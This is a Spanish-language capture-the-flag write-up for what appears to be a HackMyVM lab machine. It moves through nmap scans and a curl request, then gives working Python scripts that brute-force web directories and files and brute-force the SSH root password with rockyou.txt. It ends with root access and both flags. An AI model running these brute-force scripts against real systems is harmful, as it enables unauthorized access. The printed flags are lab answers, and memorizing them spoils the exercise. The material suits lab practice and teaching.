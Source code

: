 Buscamos puertos tcp activos.

sudo nmap -sS -sV -O -p- 192.168.56.102 -oN tcp                                                                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
Nmap scan report for 192.168.56.102
Host is up (0.00075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop


Buscamos puertos Udp activos

sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN udp                                                                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
Nmap scan report for 192.168.56.102
Host is up (0.00067s latency).
All 100 scanned ports on 192.168.56.102 are in ignored states.
Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

Usamos Curl...
curl -v http://192.168.56.

* Trying 192.168.56.102:80...
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx
< Date: Mon, 05 Dec 2022 20:30:15 GMT
< Content-Type: text/html
< Content-Length: 57
< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
< Connection: keep-alive
< ETag: "5f678373-39"
< Accept-Ranges: bytes
< 

Dont Overthink. Really, Its simple.
        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

Buscamos directorios mediante fuerza bruta con Python y requests.

import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')

Salida:
[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.

import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
Salida:
[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt

import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()

Salida:
.
.
.
.
[-] root: fernanda
[-] root: westlife
[-] root: blondie
[-] root: sasuke
[-] root: smiley
[-] root: jackson
[+] root: simple

El password es 'simple' para el usuario 'root'

id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
Flag user:HMV665sXzDS
Flag root:HMVtyr543FG
